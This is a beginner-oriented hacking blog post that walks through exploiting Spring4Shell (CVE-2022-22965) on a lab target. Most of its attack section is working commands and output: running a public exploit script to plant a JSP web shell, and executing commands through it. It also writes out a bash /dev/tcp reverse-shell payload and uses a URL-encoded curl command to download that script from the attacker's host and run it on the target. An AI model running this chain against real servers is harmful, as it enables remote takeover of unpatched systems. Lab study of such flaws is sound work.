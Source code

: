 ```yaml
---
title: CVE-2022-22965 - The Critical Spring4Shell Vulnerability
date: 2023-10-13 00:00:00 -500
categories: [Hacking for Beginners]
tags: [0day, cve, CTFs, Hacking]
image:
    path: https://i.ibb.co/cTdw811/spring.webp
---
```


Welcome back, Hackers, **to The Hacking Journey**, In this exciting articles, we will take a look about Spring4shell,  Spring4Shell, also known as `CVE-2022-22965`, is a remote code execution vulnerability within the Spring Framework. It's a name that resonates with the critical Log4Shell bug revealed in 2021.
If you're eager to enhance your hacking skills and learn alongside us, we invite you to join the ranks of aspiring hackers and cybersecurity enthusiasts.
- **The Best Academy to Learn Hacking is [Here](https://affiliate.hackthebox.com/nenandjabhata)**.
- **Beginner Friendly challenges on TryHackMe [Here](https://tryhackme.com/signup?referrer=61e8a27ddd3f3b00496505d1)**.
- **Exploit The Lab [Here](https://echoctf.red/target/92)**.

## Exploitation 
Now we will explore how the exploitation works in more details.
### Lab Description :
This is a target with direct implementation of the Spring RCE vulnerability CVE-2022-22965, accessible at http://target:8080/helloworld/greeting. The target is here to assist in familiarizing and developing exploits and mitigation tools for this vulnerability.

Upon visiting the web page, you'll immediately notice a prominent message at the top: `Hello World! Exploit me! `.
Searching possible exploits for spring returns the following PoC: [Here](https://github.com/reznok/Spring4Shell-POC/blob/master/exploit.py).
We can try to exploit the vulnerability on this website.
```terminal
└─# python3 exploit.py
usage: exploit.py [-h] --url URL [--file FILE] [--dir DIR]
exploit.py: error: the following arguments are required: --url

└─# python3 exploit.py --url http://10.0.200.14:8080/helloworld/greeting
[*] Resetting Log Variables.
[*] Response code: 200
[*] Modifying Log Configurations
[*] Response code: 200
[*] Response Code: 200
[*] Resetting Log Variables.
[*] Response code: 200
[+] Exploit completed
[+] Check your target for a shell
[+] File: shell.jsp
[+] Shell should be at: http://10.0.200.14:8080/shell.jsp?cmd=id
                                                                
```
Now if we visit that url in browser we will see the answer of the `id` command `uid=33(www-data) gid=33(www-data) groups=33(www-data) // `, then we can change it to another command like `ls`, `whoami` etc..
```terminal
└─# curl -s "http://10.0.200.14:8080/shell.jsp?cmd=ls" --output -
bin
boot
dev
entrypoint.sh
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

## Reverse Shell
Now we can try to get a shell on the server. We copy the payload below and save it in a file called shell.sh. 
`bash -c 'exec bash -i &>/dev/tcp/10.10.5.230/4444 <&1'`
We start a Listner Machine and also an http server Like This:
```terminal
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```
In a second terminal, start a Netcat listener:
```terminal
└─# nc -lnvp 4444                                             
listening on [any] 4444 ...
```
Download the script onto the target machine and execute it to establish a reverse shell:
```
# curl http://10.0.200.14:8080/shell.jsp?cmd=curl%2010.10.5.230%2Fshell.sh%20-o%20%2Ftmp%2Fshell.sh%20--output%20-
```
Here, we've encoded all special characters in the curl command to ensure proper execution.
```terminal
└─# python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.0.200.14 - - [13/Oct/2023 12:18:46] "GET /shell.sh HTTP/1.1" 200 -
```
After downloading the script, use a web browser to execute it and trigger the reverse shell:
`http://10.0.200.14:8080/shell.jsp?cmd=bash%20%2Ftmp%2Fshell.sh`
Once executed, you'll receive a reverse shell connection, as indicated by the following:
```
└─# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.5.230] from (UNKNOWN) [10.0.200.14] 47204
whoami;id;hostnamectl         
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Static hostname: 1337
       Icon name: computer-laptop
         Chassis: laptop 💻
      Machine ID: 5b6e1889fbdb4bcc88d63eabf7e2110b
         Boot ID: a383e3d1a72b45a8937cf92125545a33
Operating System: Kali GNU/Linux Rolling          
          Kernel: Linux 6.0.0-kali3-amd64
    Architecture: x86-64
 Hardware Vendor: Hewlett-Packard
  Hardware Model: HP EliteBook Folio 9470m
Firmware Version: 68IBD Ver. F.48
```

### Join Us
Thanks for reading. **Let's learn, explore, and hack together**. **Join us on Discord [here](https://discord.gg/wBT9wr9ruG)**. 

